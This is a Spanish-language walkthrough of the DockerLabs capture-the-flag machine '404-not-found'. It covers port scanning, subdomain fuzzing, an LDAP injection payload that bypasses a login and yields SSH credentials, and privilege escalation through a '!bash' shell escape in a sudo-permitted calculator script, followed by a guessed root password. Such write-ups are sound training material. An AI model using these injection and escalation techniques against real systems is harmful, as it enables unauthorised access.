 # 404-not-found

Maquina `404-not-found` de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![Dock](../../../maquina_404-not-found/imagenes/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sat Aug 24 15:03:05 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 59:4e:10:e2:31:bf:13:43:c9:69:9e:4f:3f:a2:95:a6 (ECDSA)
|_  256 fb:dc:ca:6e:f5:d6:5a:41:25:2b:b2:21:f1:71:16:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://404-not-found.hl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 24 15:03:15 2024 -- 1 IP address (1 host up) scanned in 10.07 seconds

```

Al parecer hay un dominio llamado `404-not-found.hl`, por lo que lo tenemos que agregar en `/etc/hosts` de la siguiente manera:

```css
$IP 404-not-found.hl
```

Una vez hecho esto continuaremos por el navegador ya que el escaneo no nos dice mas nada.

#### PUERTO 80

![80](../../../maquina_404-not-found/imagenes/80.png)

Luego de revisar un rato y usar gobuster no encontré nada mas que una "clave" en `/participar.html`;que realmente era un mensaje en base64 que dice _"Que haces?, mira en la URL."_. Según el mensaje dice que tenemos que mirar la URL, por lo que podriamos intentar buscar _subdominios_ con wfuzz de la siguiente manera:

```css
wfuzz --hl 9 -w <WORDLIST> -u "http://404-not-found.hl" -H "Host: FUZZ.404-not-found.hl"
```

```css
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://404-not-found.hl/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================
000000085:   200        149 L    152 W      2023 Ch     "info"
```

como vemos, hay un _subdominio_ "info" en el cual lo agregamos al `/etc/hosts` de la siguiente manera:

```css
$IP 404-not-found.hl info.404-not-found.hl
```

Esto para que podamos entrar desde el navegador.

Una vez que entramos a `info.404-not-found.hl` vemos lo siguiente: ![info](../../../maquina_404-not-found/imagenes/info.png)

Luego de revisar un poco el codigo fuente, se ve en el final lo siguiente:

```css
<!-- I believe this login works with LDAP -->
```

Por lo que si buscamos `LDAP injection`, podemos probar si alguno de la página funciona(en mi caso me funcionó esta [página](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) con `admin*)(uid=*))(|(uid=*`). Una vez probado estaremos dentro y nos da un usuario y contraseña del ssh:

![credenciales](../../../maquina_404-not-found/imagenes/credenciales.png)

## INTRUSION

Ahora nos conectamos mediante ssh con las credenciales que tenemos y listo. _ya estamos dentro_

## ESCALADA DE PRIVILEGIOS

#### 404-page

Una vez dentro podemos probar un `sudo -l` y vemos lo siguiente:

```css
(200-ok : 200-ok) /home/404-page/calculator.py
```

Intentamos leerlo sin exito pero al ejecutarlo tampoco se ve nada que podamos aprovechar. Ahora intentaremos buscar si hay algún mensaje en un ".txt" ejecutando:

```css
find / -name "*.txt" 2>/dev/null
```

```css
/usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/dependency_links.txt
/usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/top_level.txt
/usr/lib/python3/dist-packages/distro-1.9.0.dist-info/entry_points.txt
/usr/lib/python3/dist-packages/distro-1.9.0.dist-info/top_level.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/dependency_links.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/entry_points.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/requires.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/top_level.txt
/usr/lib/python3.12/LICENSE.txt
/usr/share/perl/5.38.2/Unicode/Collate/allkeys.txt
/usr/share/perl/5.38.2/Unicode/Collate/keys.txt
/usr/share/perl/5.38.2/unicore/Blocks.txt
/usr/share/perl/5.38.2/unicore/NamedSequences.txt
/usr/share/perl/5.38.2/unicore/SpecialCasing.txt
/var/www/nota.txt
```

Como vemos si hay una nota, y al leerla nos dice _"En la calculadora no sé para qué se usa el símbolo "!" seguido de algo más, sólo 200-ok lo sabe."_. Sabiendo esto podriamos intentar ejecutar la calculadora nuevamente con `sudo -u 200-ok /home/404-page/calculator.py` pero en vez de poner numeros, ponemos `!bash` y ya escalamos de usuario.

#### 200-ok

Nuevamente intentamos ejecutar `sudo -l` pero como no tenemos la contraseña descartamos la opción.

Al irnos a nuestra home vemos una flag y un archivo llamado "boss.txt" que dice _"¿Qué es rooteable?"_, podemos intentar usar _"rooteable"_ como contraseña para root, por lo que ejecutamos `su root` y ponemos la contraseña y listo, _ya somos root_.

![root](../../../maquina_404-not-found/imagenes/root.png)

Adiós.
